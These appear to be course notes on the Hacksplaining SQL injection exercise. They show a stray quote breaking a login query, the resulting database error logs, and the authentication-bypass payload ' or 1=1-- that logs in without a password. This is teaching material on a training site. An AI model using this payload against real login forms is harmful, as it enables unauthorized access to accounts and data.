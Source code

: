 
- Demo: SQL injection
  - resource: [SQL Injection exercise](https://www.hacksplaining.com/exercises/sql-injection#/start)
  - web input: email = `user@email.com` password = `password` $\to$ Unknown email or password

    ```shell
    Rendering login page.
    Checking supplied authentication details for user@email.com.
    Finding user in database.
    No such user, report this to the user (invalid credentials?).
    Rendering login page.
    ```

  - web input: email = `user@email.com` password = `password'` $\to$ An unexpected error occurred.
    - logs: The logs show a SQL syntax error. This indicates that athe quote characterr messed somthing up in an unexpeccted way.

      ```shell
      Checking supplied authentication details for user@email.com.
      Finding user in database.
      An error occurred: PG::SyntaxError: ERROR: unterminated quoted string at or near 
        "'password'' limit 1" LINE 1: ...ers where email = 'user@email.com' and 
        password = 'password'... ^ : select * from users where email = 'user@email.com' 
        and password = 'password'' limit 1.
      Unable to login this user due to unexpected error.
      Rendering login page.
      ```

    - translated SQL code

      ```sql
      SELECT *
        FROM users
       WHERE email = 'user@email.com'
          AND pass  = 'password'' LIMIT 1
      ```
    
    - repeat the above input and observe the result
    - This behavior indicates that the application might be valuable to SQL INjection

      ```sql
      SELECT *
        FROM users
       WHERE email = 'user@email.com'
         AND pass  = 'password'' LIMIT 1
      ```

  - web input: email = `user@email.com` password = `' or 1=1--`
    - We successfully gained access to the application without having to guess the password using SQL Injection.

    ```sql
    SELECT *
      FROM users
     WHERE email = 'user@email.com'
       AND pass  = '' or 1=1--' LIMIT 1
    ```
